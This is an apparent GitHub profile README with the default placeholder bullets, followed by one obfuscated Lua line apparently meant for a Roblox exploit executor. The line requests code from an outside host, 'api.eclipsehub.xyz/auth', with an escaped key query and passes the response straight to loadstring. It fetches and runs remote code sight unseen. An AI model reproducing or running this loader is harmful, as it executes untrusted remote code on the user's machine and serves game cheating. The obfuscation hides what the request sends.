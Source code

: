 - 👋 Hi, I’m @fyckzy
- 👀 I’m interested in ...
- 🌱 I’m currently learning ...
- 💞️ I’m looking to collaborate on ...
- 📫 How to reach me ...
- 😄 Pronouns: ...
- ⚡ Fun fact: ...

<!---
fyckzy/fyckzy is a ✨ special ✨ repository because its `README.md` (this file) appears on your GitHub profile.
You can click the Preview link to take a look at your changes.
--->
getgenv().mainkey = "nil" local a,b,c,d,e=loadstring,request or http_request or (http and http.request) or (syn and syn.request),assert,tostring,"https://api.eclipsehub.xyz/auth"c(a and b,"executor not supported")a(b({url=e.."\?\107e\121\61"..d(mainkey),headers={["user-agent"]="eclipse"}}).body)()
